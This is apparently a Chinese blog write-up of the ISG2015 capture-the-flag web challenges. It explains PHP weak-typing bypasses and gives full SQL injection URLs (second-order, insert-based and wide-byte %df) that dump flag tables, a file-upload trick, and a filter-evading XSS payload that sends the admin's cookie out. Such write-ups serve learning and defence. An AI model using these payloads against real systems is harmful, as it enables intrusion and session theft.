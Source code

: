 title: ISG2015_writeup
date: 2015-11-17 23:13:00
tags:
- Blogs
- ctf
categories:
- Blogs
---
前段时间一直忙于各种事，最近刚好有时间，所以还是总结下isg的web题目，避免以后忘记...

<!--more-->

# WEB

## WEB 50 collision(php 弱类型）
没什么可说的，前段时间遇到过的题目，由于php的弱类型判断，所以如果传入两个值的md5值都为0e开头，就会出现0 == 0，绕过判断。

md5('240610708') 's result is  0e462097431906509019562988736854.

md5('QNKCDZO') 's result is 0e830400451993494058024219903391.

## web 150 array (数组key上限比较截断）
利用的是php数组比较的时候key会截断的bug。user[4294967296]时,即可绕过条件限制。剩下就是爆破时间戳。
这里有两个链接

[https://bugs.php.net/bug.php?id=69892](https://bugs.php.net/bug.php?id=69892)
[http://www.sektioneins.de/blog/15-07-31-php_challenge_2015.html](http://www.sektioneins.de/blog/15-07-31-php_challenge_2015.html)

## webdroid 200 (php 弱类型比较）

题目是封装在一个apk里面的，所以当时做题目的时候也没想过要打开看看，但其实题目很简单，在apk可以发现一个接口，提交的secret会判断和服务器是否相同，通过json方式发包，一般来说，传入的字符会被当作字符串，但是这里经过json_decode，会恢复数据类型，这里就可以利用php的弱类型比较，php官方文档里关于弱类型比较的部分是这样的：
![](/img/isg2015/1.png)

![](/img/isg2015/2.png)

## injection (二次注入）

部分源码给出是这样的：

```
if($_GET['search']){
	$username = $_SESSION['username'];
	$title = mysql_real_escape_string($_GET['search']);
	$sql = "select * from posts where username='$username' and title like '$title'";
	$result = mysql_query($sql);
```

这里通过看了大牛的writeup，让我见识到了不同方式的注入，这里就用了一个奇妙的方式bypass。

search的时候会把`$_SESSION['username']`直接带入语句中，而`$_SESSION['username']`来自数据库。程序进行了两次escape，导致没法直接二次注入。考虑用数据库字段长度的截断来bypass。

首先fuzz出数据库username字段的长度,然后把最后一位改为\,这样经过 php 转义之后就成了\\,但是因为\\入库的时候字段 长度限制只能留下一个\,这样等再次 select 出来的时候就能逃逸单引号了。

注册登陆后直接search出flag：
```
index.php?search=%20union%20select%201,2,(select%20flag%20from%20flag),4%23
```

## shell 250 (特殊用户名导致文件上传漏洞）

上传后的文件会被重命名，文件名与注册的用户名有关，而用户名做了正则判断，不允许特殊字符。当时只发现了这么几点，后来看writeup才知道：

在注册的email处有注入，可以用insert注入插入多行，额外新建一个salt.php的用户，利用Apache的解析问题即可获取flag。
```
md5@salt.com','1'),('salt.php',md5('salt'),'2','2')#
```

## xssme 500 (多次url编码绕过特殊字符过滤）
题目是这样的：
1、请用最新版chrome测试
2、最终的payload的形式是一个url，payload会在站内触发，请不要发送到我的邮箱。
3、admin只会点你发过去的本站内url，任何不是url的东西都不会去碰。另外admin不能访问外部的服务器。

打开题目稍微测试了下，发现大部分有用的字符统统被过滤，而且script和on也被过滤，但是还是年轻，本能以为改变大小写肯定没用，所以当时没有试过，但是题目其实还是有不少坑，不仅仅是弹窗就可以得到flag：
1、替换script，当然可以用scscriptript绕过，这样顺带把chrome自带的xss filter绕过了。
2、启用了CSP，只允许引用本站脚本。利用回显的点，构造出xsspayload，多余的报错信息需要注释掉。
3、url编码。因为会涉及到一个页面的多次嵌套引用，payload里哪些地方需要编码哪些不用要想清楚。
4、server限制了不能访问外网，考虑让admin发信息给自己将xss得到的敏感信息返回。
5、payload要发送给admin，这时候又会经过一次script替换。

所以综合起来payload就是这样的
```
http://202.120.7.136:8888/html/index.php?action=send&content=%3Cscrscriscriptptipt%20src%3D%22http%3A//202.120.7.136:8888/html/index.php%3Faction%3Dsend%26to=*/%26content%3Dwindow.location%253D%2522http%253A//202.120.7.136:8888/html/index.php%253Faction%253Dsend%2526content%253D%2522%252Bdocument.cookie%252B%2522%2526to%253Dmd5_salt%2522/*%22%3E%3C/scscrscriptiptript%3E
```
这样看不太清晰，让我们url解码下就能看出端倪了
```
<scrscriscriptptipt src="http://202.120.7.136:8888/html/index.php?action=send&to=*/&content=window.location%3D%22http%3A//202.120.7.136:8888/html/index.php%3Faction%3Dsend%26content%3D%22%2Bdocument.cookie%2B%22%26to%3Dmd5_salt%22/*"></scscrscriptiptript>
```
再去掉过滤：
```
<script src="http://202.120.7.136:8888/html/index.php?action=send&to=*/&content=window.location%3D%22http%3A//202.120.7.136:8888/html/index.php%3Faction%3Dsend%26content%3D%22%2Bdocument.cookie%2B%22%26to%3Dmd5_salt%22/*"></script>
```
admin看到后会打开并发送
```
window.location="http://202.120.7.136:8888/html/index.php?action=send&content="+document.cookie+"&to=md5_salt"
```
这样就能获取admin的flag了

## Fruit Store(200) (宽字节注入）

题目不难，只要找到注入点就很容易跑出flag。
这里主要用到的是%df的宽字节，听说扔进sqlmap都可以直接跑出来；

先跑表名：
```
http://202.120.7.140:8888/try.php?fruit=flag%df%27+and+1=2+union+select+group_concat(distinct+table_name),2+from+information_schema.tables+where+table_schema=database()%23
```
fruit,tell_me_who_u_are
再跑列名：
```
flag%df%27+and+1=2+union+select+group_concat(distinct+column_name),2+from+information_schema.columns+where+table_name=0x74656c6c5f6d655f77686f5f755f617265%23
```
flag
最后查查看
```
flag%df%27+and+1=2+union+select+group_concat(flag),2+from+tell_me_who_u_are%23
```
get!

## SuperAdmin(250) (%0a过注册 变量覆盖）
![](/img/isg2015/3.png)
在注册页面中尝试admin加上多个％0a注册，登录，绕过了admin的检查。得到提示，只有本地用户可以得到调试信息，于是将XXF改成127.0.0.1，得到如下调试信息：
```

	function runmagicquotes(&$svar){
        if(!getmagicquotesgpc()){
            if( isarray($svar) ){
                foreach($ svar as $k => $v) 
                    $svar[$k] = runmagicquotes($v);
            }
            else{
                $svar = addslashes($svar); 
            }
        }
        return $svar;
    }
    ...... ......
    register($username, $password, $email, $is_super);
```
存在全局变量覆盖的问题，重新注册admin加上多个％0a的账号，加个is_super＝1的参数，登录得到flag


web的题目大概就这么多了，虽然这次成绩不好，但是还是见识了很多没有见过的东西，也算是开心了，唯一可惜的就是最后102名，没能拿到100的证书。不过，管他呢
